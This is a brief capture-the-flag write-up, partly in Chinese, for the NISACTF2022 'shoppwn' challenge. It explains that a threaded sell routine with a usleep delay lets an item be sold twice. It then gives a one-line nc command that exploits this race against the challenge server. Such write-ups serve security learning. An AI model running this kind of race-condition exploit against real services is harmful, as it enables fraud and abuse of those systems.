 ```yaml
---
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 


title: NISACTF2022-shoppwn-wp
date: 2023-06-13 15:03:26
tags:
- CTF
- pwn
- thread
- NISACTF2022
- nssctf
categories:
- pwn-wp
---
```

[相关资源](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/06/13/NISACTF2022-shoppwn-wp)  
## 0x1 分析
![img](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/06/13/NISACTF2022-shoppwn-wp/0x1.png?raw=true)  
![img](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/06/13/NISACTF2022-shoppwn-wp/0x2.png?raw=true)  
sell的时候使用pthread_create，其中有usleep，只要发送速度足够快，可以卖出两次

## 0x2 exp
```shell
echo -e '3\n0\n3\n0\n2\n1\n1\n' | nc node3.anna.nssctf.cn 28736
# sell pen
# sell pen
# buy flag
# show
```
